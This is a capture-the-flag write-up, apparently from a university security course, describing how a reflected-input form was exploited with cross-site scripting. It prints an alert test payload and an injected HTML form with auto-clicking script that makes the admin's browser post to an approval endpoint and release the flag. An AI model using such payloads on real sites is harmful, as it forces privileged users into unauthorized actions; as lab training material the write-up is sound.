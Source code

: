 # Apply For Flag II

## Recon

In this challenge we are given a website with an input field. If we write in there and submit it, the input gets reflected. This automatically gave us some ideas to test. 

The first one was SSTI (Server Side Template Injection), but by using [Wappalyzer](https://www.wappalyzer.com/), we found that the tech stack used was not vulnerable to this.

The second one was XSS (Cross-Site Scripting). To test this we submitted the payload `<script>alert("H4X0R")</script>`, hoping that there were no filters difficulting our way.

In fact this was the case:

![Initial XSS Payload](images/apply-for-flag-2/xss_initial_payload.png)

We also noticed that the server seemed to be re-rendering from time to time, since even if we checked the alert it would appear again.

Furthermore, we noticed in the text `The admin will use this page to check your request.`, which had a hyperlink to `http://ctf-fsi.fe.up.pt:5005/request/`<request_id>`.

When we went to this page, we saw a weird disabled button with the text `Give the flag`:

![Give The Flag Button](images/apply-for-flag-2/give_the_flag_page.png)

When we inspected the html of this page, we noticed that this button would essentially redirect us to a `/approve` endpoint if clicked:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```


## Exploitation

So, knowing all this, after some time of trial and error, we tried to develop a payload that would go to the wanted resource and we injected a javascript snippet to click the button.

Note: We already knew the `<request_id>` from the beginning, since it was given in plaintext on the homepage.


```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">          
<div class="submit">                  
  <input type="submit" id="giveflag" value="Give the flag">   
</div>  
</form>    

<script type="text/javascript">         
 document.querySelector('#giveflag').click();  
</script>
```

Initially this didn't work as we got an `access denied`. So, we spent a lot of time trying to refactor the script without success.

Only when we tried to disable the javascript in order to turn off all the frontend (superficial) protections, that we finally had success and got the flag.